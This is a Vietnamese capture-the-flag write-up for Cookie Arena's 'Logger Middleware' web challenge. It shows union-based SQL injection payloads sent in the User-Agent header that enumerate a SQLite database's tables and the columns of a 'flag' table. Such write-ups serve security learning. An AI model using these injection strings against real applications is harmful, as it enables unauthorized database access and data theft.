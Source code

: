 ```yaml
---
title: Logger Middleware Writeup - Cookie Arena
date: "2023-08-01 16:22:15"
categories:
  - CTF Writeup
  - Cookie Arena
tags:
  - middleware
  - SQL Injection
published: true
---
```


Link Challenge: [https://battle.cookiearena.org/challenges/web/logger-middleware](https://battle.cookiearena.org/challenges/web/logger-middleware){:target="\_blank"}.

![access log page](/posts/logger-middleware-cookiearena/access-log.PNG)

Tương tự với [Baby Logger Middleware](/posts/baby-logger-middleware-writeup-cookie-arena/) nhưng khó hơn 1 chút xíu, vẫn lại là sql injection.

![error query](/posts/logger-middleware-cookiearena/error-sql.png)

Đã biết số lượng columns trong bảng logger, tiến hành test Union-Based SQLi

![test union-based sqli](/posts/logger-middleware-cookiearena/test-union-based-sqli.png)
_Union-Based SQLi_

Google 1 chút về sqlite, cũng nắm sơ qua về nó rồi thì bắt tay vào viết payload thôi.

```
User-Agent: ',null,null,null,null) union select null,group_concat(name),null,null,null,null from sqlite_master-- -
```

![List Tables](/posts/logger-middleware-cookiearena/tables.png)
_Liệt kê tables trong sqlite_master_

Yep, chính nó, bảng **flag**.

```
User-Agent: ',null,null,null,null) union select null,group_concat(name),null,null,null,null from pragma_table_info('flag')-- -
```

![List Columns](/posts/logger-middleware-cookiearena/columns.png)
_Liệt kê columns trong bảng **flag**_

Cột **secr3t_flag** chắc chắn chứa flag rồi. Let's catch it!

![secr3t_flag](/posts/logger-middleware-cookiearena/flag.png)
_secr3t_flag_
